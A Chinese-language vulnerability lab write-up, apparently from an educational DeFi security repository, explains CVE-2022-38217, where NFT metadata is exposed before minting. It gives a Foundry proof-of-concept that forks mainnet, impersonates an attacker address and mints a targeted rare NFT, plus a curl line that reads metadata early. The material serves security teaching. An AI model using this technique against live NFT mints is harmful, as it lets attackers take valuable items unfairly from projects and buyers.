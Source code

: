 # 通过暴露的元数据铸造NFT
[NFTMint_exposedMetadata.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/NFTMint_exposedMetadata.sol)  
**名称：** NFT通过暴露的元数据进行铸造的漏洞  
**描述：**  
该合约容易受到CVE-2022-38217的影响，这可能会导致项目中所有NFT的元数据提前披露。  
因此，攻击者可以找到有价值的NFT，然后通过监控mempool来瞄准特定 NFT的铸造，并在二级市场上出售NFT以获取利润。  
问题是元数据是在铸造完成后才能可见的  

**参考：**  
https://twitter.com/Supremacy_CA/status/1596176732729769985  
https://medium.com/@Supremacy_Official/evilreveal-cve-2022-38217-a-nuclear-weapon-level-generic-vulnerability-buried-under-the-nft-5112724dabb  

**合约：**  

```
contract ContractTest is DSTest {
    IFantasticWeslie nftContract =
        IFantasticWeslie(0xf6FFBa463e46087FcdC3a51391bB675B0e2C1a40); // 神奇的韦斯利（一种类型的狗）

    CheatCodes cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);

    bytes32[] merkleTreeProof;

    function setUp() public {
        cheats.createSelectFork("mainnet", 16023847);
    }
}
```  
**如何测试：** 
forge test --contracts src/test/NFTMint_exposedMetadata.sol-vvvv  


```
function testExploit() public {
        //由于合约容易受到CVE-2022-38217的影响
        //这可能会导致项目中所有NFT的元数据提前公开
        //因此，攻击者可以找到有价值的NFT，然后通过监控Mempool来瞄准铸造指定的NFT，并在二级市场上出售NFT以获取利润

        //例如，假设攻击者发现NFT#142是一种罕见的NFT，现在他只需监控内存池，直到NFT#141被铸造，然后再铸造NFT#142
        //通过cURL查看NFT的元数据 -> curl -k https://bafybeic23x4v75z7isyqhy5p6ylzqutm6lnpobwngaouovdu6qjjvt4wpu.ipfs.dweb.link/142.json
        //问题是元数据只有在铸造完成后，才能可见

        //以太坊上的交易- 0xfa4434236d2a9717e3410d7cdc60eed6acfddb054f58bc779c07349a1f45ce6b
        //以太坊上的交易 - 0x24af97355f6cec4ae02fff8bbf7144a02857e3ffd36a650aa295c62f6272cc83

        address attacker = 0x1fCebBb5D3EACd26e70b0BD1E54a979a479906aA;
        cheats.prank(attacker);

        merkleTreeProof.push(
            0x0ea49bae9ab4f8b82fb0e0b5e876576c9a4a945edc2fa5a7b448fad470802ae6
        );
        merkleTreeProof.push(
            0x852233af3700b87dc51f6abf53d4f935746d746d84a33d4d7e6302d9c110fedd
        );
        merkleTreeProof.push(
            0x5de513269badb3a0b73e237a9f28f86994791f4421effd1865df975a0f8ee52c
        );
        merkleTreeProof.push(
            0xe52d780f15394a8f6254f328ca06a66909c41f1ee3adab33d02cd087f8c37604
        );
        merkleTreeProof.push(
            0xede88505e4259ab482a1019cc8d4364cf9e1e7866768245854c0f6e369d2b08c
        );
        merkleTreeProof.push(
            0x776fee48d9285a8e2d1ecde47354e9ebe91b10f0b5f2d754968af831a7047808
        );
        merkleTreeProof.push(
            0x3d13c4757d9e35123b8785040c29f232483941fb7d591b1a94167c1ca5e8875f
        );
        merkleTreeProof.push(
            0xc36c091c358833709f1b6f44e783e5d9ad5ad9f5f0ee09a37c376fd354827fb1
        );
        merkleTreeProof.push(
            0xce26991b2af9fc0fb807aea36667d37439ae7122d3ea8edcbfe92b04bf674922
        );
        merkleTreeProof.push(
            0x8452c207732923a758c53fb296f3d88340a04fe9c381c73ba44343a45340953e
        );
        merkleTreeProof.push(
            0xcc44822b3b5a19839899f6795622daff3bab327895558977ea58a30a42c6a49e
        );
        merkleTreeProof.push(
            0x45c575962e5a88b5e8c3aedf4e3e74306d0124f4cc86c25bc4cd1bcae16c54a0
        );

        nftContract.mint{value: 0.12 ether}(merkleTreeProof);

        console.log("Owner of NFT#142 : ", nftContract.ownerOf(142));
    }  
 ```

 ![Alt text](image-24.png)


